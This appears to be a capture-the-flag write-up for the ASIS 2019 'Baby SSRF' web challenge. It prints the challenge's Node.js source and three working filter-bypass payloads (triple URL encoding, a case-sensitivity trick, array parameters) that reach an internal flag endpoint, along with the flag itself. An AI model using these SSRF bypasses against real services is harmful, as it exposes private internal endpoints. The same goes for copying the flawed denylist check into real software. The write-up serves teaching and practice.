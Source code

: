 # ASIS CTF quals - 2019

###### Contributed by k1tten
## Baby SSRF - 70 / Web


Description:
The goats thought they were safe behind the walls from the threat of the wolf!
But they were not aware of the wolf's plan to bypass the wall!


### Solution

The first hint was in the header, then we can get the source code:

```
HTTP/1.1 200 OK
X-Powered-By: Express
GET: source
Content-Type: text/html; charset=utf-8
Content-Length: 22
ETag: W/"16-Ypo4AziLbHOiFWFpNXHkFH9U8Dc"
Date: Tue, 23 Apr 2019 16:55:11 GMT
Connection: close

Hi, I'm a baby ssrf :)
```

Here's the source code.

```
const express = require("express");
const body_parser = require('body-parser');
const http = require('http')
const public_s = express();
const private_s = express();
const normalizeUrl = require('normalize-url');

public_s.use(body_parser.urlencoded({
    extended: true
}));

public_s.get('/', function (request, result) {
    result.setHeader('GET', 'source')
    result.send("Hi, I'm a baby ssrf :)")
    result.end()
})

public_s.get('/source', function(req, res) {
    res.sendFile(__filename)
  })

public_s.use(function (req, res, next) {
    var err = null;
    try {
        decodeURIComponent(req.path)
    } catch (e) {
        err = e;
    }
    if (err) {
        res.sendStatus(400).end()
    }
    next();
});

public_s.post('/open/', (request, result) => {
    document_name = request.body.document_name

    if (document_name === undefined) {
        result.end('bad')
    }
    console.log('http://localhost:9000/documents/' + document_name)
    if (document_name.indexOf('.') >= 0 ||
        document_name.indexOf("2e") >= 0 ||
        document_name.indexOf("┮") >= 0 ||
        document_name.indexOf("Ｅ") >= 0 ||
        document_name.indexOf("Ｎ") >= 0) {
        result.end('Please get your banana and leave!')
    } else {
        try {
            var go_url = normalizeUrl('http://localhost:9000/documents/' + document_name)
        } catch(error) {
            var go_url = 'http://localhost:9000/documents/banana'
        }
        http.get(go_url, function (res) {
            res.setEncoding('utf8');

            if (res.statusCode == 200) {
                res.on('data', function (chunk) {
                    result.send(chunk)
                    result.end()
                });
            } else {
                result.end('Oops')
            }
        }).on('error', function (e) {
            console.log("Got error: " + e.message);
        });
    }
})

public_s.listen(8000)
private_s.listen(9000)

private_s.get('/documents/banana', function (request, result) {
    result.send("Here is your banana :D")
    result.end()
})

private_s.get('/flag', function (request, result) {
    result.send("flag{flag_is_here}")
    result.end()
})
```

We have to access the `http://localhost:9000/flag` to get flag.
But the common symbols to do path traversal was blocked：`.`、`2e`

Even the unicode bypass char was blocked：`┮`、`Ｎ`、`Ｅ`
(from Orange Tsai：[A New Era Of SSRF](https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf)

After few tries on the local, we can bypass easily by triple encoding、request with object type.
You could even just use `%2E` because of the block char `%2e` wasn't case sensitive.

```
### console.log for test ###

console.log('Origin:    http://localhost:9001/documents/' + document_name)
console.log('Normalize: ' + normalizeUrl('http://localhost:9001/documents/' + document_name))
console.log('Typeof:    ' + typeof(document_name))
console.log('indexOf(.):' + document_name.indexOf('.'))

######

#1 bypass with triple encoding
Request args：document_name_get=%25%32%45%25%32%45/flag
Origin:    http://localhost:9001/documents/%2E%2E/flag
Normalize: http://localhost:9001/flag
Typeof:    string
indexOf(.):-1

#2 bypass with case sensitive
Request args：document_name_get=%252E%252E/flag
Origin:    http://localhost:9001/documents/%2E%2E/flag
Normalize: http://localhost:9001/flag
Typeof:    string
indexOf(.):-1

#3 bypass with object
Request args：document_name_get=foo&document_name_get=/../../flag
Origin:    http://localhost:9001/documents/foo,/../../flag
Normalize: http://localhost:9001/flag
Typeof:    object
indexOf(.):-1
```

`ASIS{68aaf2e4dd0e7ba28622aaed383bef4f}`
